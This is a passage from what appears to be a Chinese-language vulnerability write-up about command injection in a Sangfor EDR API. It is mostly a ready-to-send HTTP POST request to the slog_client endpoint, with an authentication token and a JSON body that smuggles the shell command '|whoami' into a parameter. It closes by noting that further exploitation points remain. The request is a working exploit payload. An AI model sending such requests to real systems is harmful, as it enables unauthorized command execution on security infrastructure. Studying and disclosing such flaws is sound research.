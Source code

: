 ```php
// {"params":"|whoami"}` -> array('params' => '|whoami')
$interface_data["data"] = array('params' => '|whoami');
```

![-w1278](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15982381570192.jpg)


```php
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJyYW5kb20iOiIxIiwgIm1kNSI6ImM0Y2E0MjM4YTBiOTIzODIwZGNjNTA5YTZmNzU4NDliIn0= HTTP/1.1
Host: 192.168.31.136
Connection: close
Content-Length: 20
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: https://192.168.31.136
Referer: https://192.168.31.136/ui/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

{"params":"|whoami"}
```

## 最后

熟悉了解了整个流程之后，其实还有更多利用点可以挖掘～本文就不过多的赘述了。